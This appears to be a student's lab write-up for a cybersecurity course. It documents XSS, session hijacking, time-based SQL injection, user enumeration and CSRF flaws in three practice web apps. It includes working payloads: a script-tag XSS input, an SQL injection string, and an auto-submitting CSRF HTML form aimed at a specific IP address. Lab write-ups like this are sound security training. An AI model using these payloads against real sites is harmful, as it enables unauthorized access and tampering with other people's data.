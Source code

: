 # Unit-9-Cybersecurity

# Green:

Vulnerability 1: Cross-Site Scripting (XSS)

Go to Contact section and submit a feedback with <script>alert('XSS
ALERT');</script>
Log into admin and once you click the feedback section, it will trigger a popup

Vulnerability 2: Cross-Site Scripting (XSS)

Go to log in page, if you enter the correct username, but inccorect
password, "Log in was unsuccessful" will be bolded
If you enter an invalid username and incorrect password, it wouldn't be bolded.

# Blue:

Vulnerability 1: Session Hijacking/Fixation

In one browser (Chrome), we log in normally but then copy the current
PHPSESSIONID.
Use another browser (Safari in this case) which was NOT logged in and
change the PHPSESSIONID we got from Chrome.
It will show that it was automatically logged into the system in the
Safari without entering the password and username.

Vulnerability 2: SQL Injection

Go to the salesperson tab
Select a random salesperson and add this at the end of the url ' OR
SLEEP(5)=0--'
The current browser will change in 5 seconds

# Red:

Vulnerability 1: User Enumeration

Log in and then go to sales person's page
Click into any salesperson to get their ID and change it to 11 or 12;
these information shouldn't be public to everyone
Log out and go to the public site
Click into any salesperson and change their ID to 11 or 12 and we will
get that information when public user shouldn't supposed to

Vulnerability 2: Cross-Site Request Forgery (CSRF)

Create a html page with the code below

<html>
  <head>
    <title>A Totally Blank Page</title>
  </head>
  <body onload="document.CSRF.submit()">
<form action="https://104.198.208.81/red/public/staff/salespeople/edit.php?id=5"
method="post" style="display: none;" name='CSRF' target="res">
    <input type="text" name="first_name" value="HACKED" />
      <input type="text" name="last_name" value="WAS HACKED" />
      <input type="text" name="phone" value="111-111-2222" />
      <input type="text" name="email" value="HACKED@HACKED.com" />
</form>
    <iframe name="res" style="display: none;"></iframe>
  </body>
</html>


User submit a feedback with a url that links to the html page
Admin log into site and visit the attached feedback url
By visiting the page, it will attack and change salesperson with the ID 5's info


